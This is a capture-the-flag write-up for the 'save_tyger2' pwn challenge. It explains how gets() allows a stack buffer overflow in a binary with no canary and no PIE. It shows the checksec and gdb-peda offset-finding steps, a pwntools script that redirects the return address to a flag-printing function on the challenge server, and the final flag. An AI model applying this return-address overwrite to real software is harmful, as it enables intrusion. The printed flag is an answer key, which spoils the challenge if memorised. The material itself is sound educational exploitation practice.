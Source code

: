 # save_tyger2
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/solves-166-orange)

## Description
Tyger needs your help again.

Connect with `nc litctf.live 31788`

[save_tyger2.zip](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Solution
In `save_tyger2.c`, we can see that there is a cell function that prints the flag. There is also a main function which uses the dangerous `gets` to read input into an array, and then return.

Due to the dangerous nature of `gets` (reading as many bytes as the user inputs), if stack protection is turned off and the address of cell is fixed (no PIE), then we can overwrite the saved return address of main so that when it returns, it returns to cell.
```
$ checksec save_tyger2
[*] '~/lit/save_tyger2/save_tyger2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Wonderful! No stack canary, and no PIE either. We can use gdb-peda to determine how much garbage to write before overwriting the return address.
```gdb
$ gdb save_tyger2
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
gdb-peda$ r
Starting program: ~/lit/save_tyger2/save_tyger2
warning: Error disabling address space randomization: Operation not permitted
NOOOO, THEY TOOK HIM AGAIN!
Please help us get him out or there is no way we will be able to prepare LIT :sadness:
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```
Because we got a segfault, it means that we successfully overwrote the return address. The pattern string is important because it helps us figure out how many bytes to send before overwriting the return address.
```
gdb-peda$ pattern search
Registers contain pattern buffer:
RSI+-112 found at offset: 6610
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RSI] --> offset 1 - size ~81
[RSP] --> offset 40 - size ~40
[R8] --> offset 0 - size ~80
```
The pattern is reported at the top of the stack at offset 40, meaning that we should write 40 bytes of garbage, followed by the address of cell, to get the flag.
```py
from pwn import *

elf = ELF("./save_tyger2")

pay = b'A'*40 + p64(elf.symbols['cell'])

p = remote("litctf.live", 31788)
p.sendline(pay)

p.interactive()
```

Flag: `LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
